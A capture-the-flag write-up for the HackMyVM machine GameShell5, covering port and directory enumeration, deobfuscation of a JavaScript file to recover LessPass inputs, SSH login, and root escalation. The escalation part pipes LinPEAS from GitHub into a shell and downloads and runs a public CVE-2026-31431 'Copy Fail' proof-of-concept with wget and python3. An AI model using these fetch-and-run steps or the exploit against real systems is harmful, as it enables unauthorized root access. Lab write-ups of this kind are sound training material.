






Writeup of the **GameShell5** machine from [HackMyVM](https://hackmyvm.eu/): In this machine, created by **Sublarge**, we will deobfuscate JavaScript code, explore the LessPass password manager, and take advantage of the latest major Linux vulnerability known as Copy Fail.


## Table of contents


---

## Enumeration

The first step is to identify which services the machine exposes and their versions, so we can decide where to continue the attack.



The first `nmap` scans **all TCP ports** (`-p-`), treats the host as up without ICMP ping (`-Pn`, useful when the firewall blocks ping but the ports respond), and avoids reverse DNS resolution (`-n`) so the scan is faster and more predictable. The result shows two open ports: **22** (SSH) and **80** (HTTP).

```bash
$ nmap -p- -Pn -n 10.0.2.13
Starting Nmap 7.94SVN ( https://nmap.org ) at 2026-05-13 14:28 CEST
Nmap scan report for 10.0.2.13
Host is up (0.000063s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 08:00:27:E8:44:57 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 2.24 seconds

```

The second `nmap` runs only against those ports and adds service detection and default script execution (`-sV` to identify the banner version; `-sC` to run scripts considered safe). This gives us the OpenSSH and Apache versions.

```bash
$ nmap -p22,80 -sVC -Pn -n 10.0.2.13            
Starting Nmap 7.94SVN ( https://nmap.org ) at 2026-05-13 14:30 CEST
Nmap scan report for 10.0.2.13
Host is up (0.00049s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 f6:a3:b6:78:c4:62:af:44:bb:1a:a0:0c:08:6b:98:f7 (RSA)
|   256 bb:e8:a2:31:d4:05:a9:c9:31:ff:62:f6:32:84:21:9d (ECDSA)
|_  256 3b:ae:34:64:4f:a5:75:b9:4a:b9:81:f9:89:76:99:eb (ED25519)
80/tcp open  http    Apache httpd 2.4.62 ((Debian))
|_http-title: Retro Bowl
| http-robots.txt: 4 disallowed entries 
|_/*.js$ /*.js? /*.css$ /*.css?
|_http-server-header: Apache/2.4.62 (Debian)
MAC Address: 08:00:27:E8:44:57 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.91 seconds

```

```bash
$ curl http://10.0.2.13   
        <title>Retro Bowl</title>
<iframe src="https://shellshock.io/?utm=chromeext" frameborder="0" scrolling="yes" width="100%" height="100%" loading="lazy"></iframe>

<style type="text/css">iframe { position: absolute; width: 100%; height: 100%; z-index: 999; }</style>
```

The HTML served on port 80 contains an iframe embedding an external online game.

> ⚠️ **Important notice:** The website loaded in the iframe is a third-party service, outside the CTF environment. Under no circumstances should we try to attack, scan, or interact with that external domain: doing so may be illegal and is also NOT the purpose of the challenge. Our only target must be the lab's internal IP address, never internet resources unrelated to the exercise.

With this quick Gobuster scan, we discover the main files and routes accessible on the target website, including files such as index.html, style.css, script.js, robots.txt, and the forbidden server-status endpoint.

```bash
$ gobuster dir -w /usr/share/SecLists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -u http://10.0.2.13/ -x html,php,js,txt,zip,tar,css
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.0.2.13/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/SecLists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Extensions:              php,js,txt,zip,tar,css,html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
index.html           (Status: 200) [Size: 273]
style.css            (Status: 200) [Size: 50645]
script.js            (Status: 200) [Size: 13483]
robots.txt           (Status: 200) [Size: 84]
server-status        (Status: 403) [Size: 274]
Progress: 1764456 / 1764456 (100.00%)
===============================================================
Finished
===============================================================
```

The `robots.txt` file retrieved with `curl` from the site root contains typical crawler restrictions (user-agent `*`). It blocks URLs ending in `.js` or `.css` (both exact endings and query-string variants), which is commonly intended to prevent search engines from indexing JavaScript and CSS files.

```bash
$ curl http://10.0.2.13/robots.txt
User-agent: *
Disallow: /*.js$
Disallow: /*.js?
Disallow: /*.css$
Disallow: /*.css?
```

This type of configuration is common for keeping certain static resources out of indexes, but it does not necessarily represent a security barrier; it simply suggests that bots should not index those file types.

## Intrusion

When reviewing the results, we see that the `style.css` and `script.js` files identified with gobuster are not being referenced by the `index.html` page. This is striking and gives us a reason to analyze them in more detail.

The `script.js` file is obfuscated:

```bash
$ curl http://10.0.2.13/script.js 
(function(_0x58bb25,_0x331bd0){function _0x5bddb3(_0x1ec754,_0x2f330a,_0x586ba6,_0x118108){return _0xadc0(_0x586ba6-0xa3,_0x2f330a);}const _0x59ed98=_0x58bb25();function _0x1e1950(_0x3bf959,_0x2be6e1,_0x188497,_0x447fd8){ ...  const loginName='noob',masterPass=_0x43faef(0x2d,0x3e,0x43,0x4b)+'kLmNoP';
```

On the other hand, the `style.css` file contains an embedded base64-encoded image:

```bash
$ curl http://10.0.2.13/style.css
body {
  margin: 0;
  padding: 0;
  background: #f5f5f5;
  background-image: url('data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAB+8AAAHLCAYAAAAJAdquAAAACXBIWXMAAC4jAAAuIwF4pT92AAAAGXRFWHRTb2Z0d2FyZQB3d3cuaW5rc2NhcGUub3Jnm+48GgAAIABJREFUeJzs3XeYXVXVx/HvpEwqKYSO0gSkd6TZQEQQkA5iA4GgWLCgL9gQFRVRsaKAioqIUhUQUCwoCnZRECmCAlIERFoIpM77x7pjJskkmXLvWad8P89znxlIcvfK5Mzcfc9v77W7enp6kNRRI4B1gI2B1YCVW49VgZVaHye3fu/k1u8HeLT18SngEeDh1uPfwD/6PO4E5nT6LyFJkiRJkiRJkiSpc7oM76W2GgdsBmwObNH6uBkwsYNjzgZuBm4E/gxcD/wJmNvBMSVJkiRJkiRJkiS1keG9NDwjge2BXYGdW5+PSa0oPAX8BrgGuJII9f1mlyRJkiRJkiRJkkrK8F4avDHAHsA+wF7ACrnlDMj9RIh/EfATYF5uOZIkSZIkSZIkSZL6MryXBqYLeBHwGuAAYEpuOcPyIHAhcC7w2+RaJEmSJEmSJEmSJGF4Ly3LZOAQ4Fhg4+RaOuEW4Ezga8CM5FokSZIkSZIkSZKkxjK8l/q3LnAccBgwLrmWIjwBfAU4jWixL0mSJEmSJEmSJKlAhvfSwjYFTgT2B0Yk15JhFnAOcCpwR3ItkiRJkiRJkiRJUmMY3kthLeA9wJHAyNxSSmEO8HXgJOCB3FIkSZIkSZIkSZKk+jO8V9NNJQLqY4DRuaWU0lNEK ... 3/GwAAAAAAAMC6/B91mVarORIqCQAAAABJRU5ErkJggg==');
  font-family: "Arial", sans-serif;
}

.container {
  width: 1200px;
  margin: 0 auto;
  padding: 20px;
}

.btn {
  padding: 8px 16px;
  border: none;
  border-radius: 4px;
  background: #4299e1;
  color: white;
  cursor: pointer;
}
```

### LessPass Image in CSS

The following command extracts and saves locally the base64-embedded image found in the CSS file's `background-image` property:

```bash
curl -s http://10.0.2.13/style.css | sed -n "s/.*background-image: *url(['\"]data:image\/png;base64,\([^'\"]*\)['\"].*/\1/p" | base64 -d > image.png
```

After extracting the image embedded in the CSS, we can see that it corresponds to the **LessPass** logo, a password manager that never stores passwords, but instead generates them dynamically from the master password, username, and service name. If any of these values is lost, the generated password cannot be recovered.


More details:  
[How does LessPass work?](https://blog.lesspass.com/2016-10-19/how-does-it-work)  
Source code: [GitHub LessPass](https://github.com/lesspass/lesspass/)


### JavaScript Deobfuscation

If we copy the obfuscated JavaScript obtained from `script.js` and analyze it with the online deobfuscation tool `https://deobfuscate.relative.im/`, we find some very interesting constants at the end of the script.

```javascript
const site = 'shell-shockers.dsz'
const loginName = 'noob',
  masterPass = 'aBcDeFgHiJkLmNoP'
```



### SSH Credentials for noob

Now we only need to combine everything: use LessPass together with the constants found in the obfuscated code.

We can install LessPass or go directly to https://lesspass.com/, where, leaving the options, length, and counter at their default values, we obtain the password for the noob user.



We access the server through SSH using the credentials generated with LessPass, which allows us to read the flag located in the user.txt file.

```
$ ssh noob@10.0.2.13
** WARNING: connection is not using a post-quantum key exchange algorithm.
** This session may be vulnerable to "store now, decrypt later" attacks.
** The server may need to be upgraded. See https://openssh.com/pq.html
noob@10.0.2.13's password: 
Linux GameShell5 4.19.0-27-amd64 #1 SMP Debian 4.19.316-1 (2024-06-25) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue May 12 12:06:48 2026 from 10.0.2.12
noob@GameShell5:~$ cat user.txt
flag{XXXXXXXXXXXXXXXXXXXXXXXXX}

```

## Privilege Escalation

### Linpease

If we download LinPeas and run it, it will not work correctly because it cannot find the `grep` binary.

```
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh

...
sh: 459: grep: not found
sh: 461: grep: not found
sh: 477: grep: not found
sh: 477: grep: not found
sh: 478: grep: not found
sh: 478: grep: not found
...

```

However, the operating system has `busybox` installed, which includes a built-in `grep`. Therefore, we can create a symbolic link called `grep` pointing to `busybox` and add the path to `PATH` so LinPeas uses it correctly. This allows us to run LinPeas without issues.

The command to do this would be:

```
ln -s /bin/busybox grep && export PATH=$PWD:$PATH
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

We find that the system is vulnerable to Copy Fail with linpease.



### Copy Fail exploit

> Note: I am not completely sure whether this was the intended path for privilege escalation on the machine, since the Copy Fail vulnerability is relatively modern and affects many recent systems. I also noticed that there are several users created on the system, which makes me think there could be another escalation route, possibly through some kind of lateral movement that, in my case, I did not manage to find. If you discover another way or the "official" path, I would love to know it!

We observe that the system has a Python 3.9.0 version installed.

```bash
noob@GameShell5:~$ python3 --version
Python 3.9.2
```

We look for a copy fail exploit that works with the system's python version and find the following one.

[https://github.com/w3llr00t3d/CVE-2026-31431-PoC](https://github.com/w3llr00t3d/CVE-2026-31431-PoC)

We download it and run it, and we obtain root credentials.

```bash
wget https://github.com/w3llr00t3d/CVE-2026-31431-PoC/raw/refs/heads/main/poc.py
python3 ./poc.py
```

We obtain root credentials and can read the root.txt flag.





> Thank you for reading this writeup! I hope it was useful, that you learned something new, or at least that you had fun following the process. See you in the next challenge!

---

## References

Reference material aligned with what appears in the writeup (web enumeration, **LessPass**, JavaScript deobfuscation, **LinPEAS** in minimal environments, and **Copy Fail** escalation):

- [HackMyVM](https://hackmyvm.eu/) — platform hosting the **GameShell5** machine
- [Nmap](https://nmap.org/book/man.html) — port scanning and service detection (`-p-`, `-sV`, `-sC`)
- [Gobuster](https://github.com/OJ/gobuster) — directory and extension fuzzing over HTTP
- [SecLists — web wordlists](https://github.com/danielmiessler/SecLists) — lists such as the one used with Gobuster
- [LessPass — How does it work?](https://blog.lesspass.com/2016-10-19/how-does-it-work) — deterministic password generation (site, username, master password)
- [LessPass — source code](https://github.com/lesspass/lesspass)
- [lesspass.com](https://lesspass.com/) — online generator cited in the writeup
- [Deobfuscate (relative.im)](https://deobfuscate.relative.im/) — online tool for analyzing the obfuscated `script.js`
- [PEASS-ng / LinPEAS](https://github.com/peass-ng/PEASS-ng) — enumeration script for privilege escalation
- [BusyBox](https://busybox.net/) — compact utilities; symbolic link `grep` → `busybox` when GNU `grep` is missing from `PATH`
- [Copy Fail PoC — CVE-2026-31431](https://github.com/w3llr00t3d/CVE-2026-31431-PoC) — Python exploit used after detecting the vulnerability with LinPEAS
